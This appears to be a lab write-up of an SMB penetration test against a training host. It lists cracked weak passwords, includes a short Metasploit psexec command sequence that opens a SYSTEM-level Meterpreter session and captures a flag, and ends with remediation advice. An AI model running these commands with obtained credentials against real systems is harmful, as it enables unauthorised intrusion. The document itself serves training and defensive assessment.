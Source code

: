 ### SMB Protocol Analysis:
- **Protocol Versions:** SMB 2.0.2, 2.1.0, 3.0.0, 3.0.2, 3.1.1
- **Service Type:** Microsoft Windows SMB/CIFS
- **Authentication:** NTLM/Negotiate supported
- **Security Assessment:** Multiple protocol versions increase attack surface

### Credential Assessment Results:
| Username | Password | Access Level | Risk Level |
|----------|----------|--------------|------------|
| sysadmin | samantha | Standard User | HIGH |
| demo | victoria | Standard User | HIGH |
| auditor | elizabeth | Standard User | HIGH |
| administrator | qwertyuiop | **Administrative** | **CRITICAL** |

### Exploitation Proof:
```bash
# Successful exploitation commands
use exploit/windows/smb/psexec
set RHOSTS demo.ine.local
set SMBUser Administrator
set SMBPass qwertyuiop
exploit

# Result: Meterpreter session established
# System access confirmed: SYSTEM level privileges
# Flag captured: e0da81a9cd42b261bc9b90d15f780433
```

### Evidence Collected:
- **Meterpreter Session Logs:** Complete session interaction records
- **System Information:** Windows version, patch level, user accounts
- **File System Access:** Full C:\ drive accessibility confirmed
- **Proof of Compromise:** Flag file successfully retrieved

### Recommendations by Priority:

#### Immediate (0-7 days):
1. **Change Default Credentials:** Reset all identified weak passwords
2. **Disable SMB v1:** Remove legacy protocol support
3. **Enable SMB Signing:** Require message signing for integrity

#### Short Term (1-4 weeks):
1. **Network Segmentation:** Isolate administrative systems
2. **Access Controls:** Implement principle of least privilege
3. **Monitoring:** Deploy SMB traffic analysis and alerting

#### Long Term (1-3 months):
1. **Password Policy:** Enforce complex password requirements
2. **Multi-Factor Authentication:** Implement MFA for administrative accounts
3. **Regular Assessment:** Schedule quarterly SMB security reviews
```

### **🔧 Technical Evidence Documentation:**
```markdown
## Detailed Technical Evidence

### Command Execution Log:
```bash
# [2024-07-10 13:31:25] Initial discovery
nmap demo.ine.local
```